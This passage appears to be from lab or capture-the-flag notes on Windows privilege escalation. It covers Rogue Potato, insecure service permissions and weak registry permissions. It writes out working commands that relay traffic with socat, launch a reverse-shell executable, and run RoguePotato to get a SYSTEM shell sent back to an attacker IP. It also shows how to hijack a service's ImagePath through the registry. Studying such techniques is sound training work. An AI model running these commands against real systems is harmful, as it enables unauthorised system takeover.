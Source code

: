 ### Rogue Potato

Privileges needed:
* SeImpersonatePrivilege
* SeAssignPrimaryTokenPrivilege

Set up a socat redirector on Kali, forwarding Kali port 135 to port 9999 on Windows:
```
sudo socat tcp-listen:135,reuseaddr,fork tcp:10.10.207.177:9999
```
Start a listener on Kali. Simulate getting a service account shell by logging into RDP as the admin user, starting an elevated command prompt (right-click -> run as administrator) and using PSExec64.exe to trigger the reverse.exe executable you created with the permissions of the "local service" account:
```
C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe
```
Start another listener on Kali.
Now, in the "local service" reverse shell you triggered, run the RoguePotato exploit to trigger a second reverse shell running with SYSTEM privileges (update the IP address with your Kali IP accordingly):
```
C:\PrivEsc\RoguePotato.exe -r 10.10.10.10 -e "C:\PrivEsc\reverse.exe" -l 9999
```
### Insecure service Permissions
```
C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc
```
In this way we use the accesschk.exe executable to take advantage of the privileges that the user has on the daclsvc service. Being able to configure the service settings, we can modify the binary path and set it to run a reverse shell generated with Msfvenom and with the help of Netcat obtain a reverse shell with administrator privileges.

### Weak Registry permissions
```
sc qc regsvc
```
```
C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```
```
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
```
```
net start regsvc
```
With these commands, we can check if we have the necessary permissions to write to the system registry. If we do, we can then write the path for the reverse shell to execute.

### Insecure service Executables

#### Registry - AutoRuns
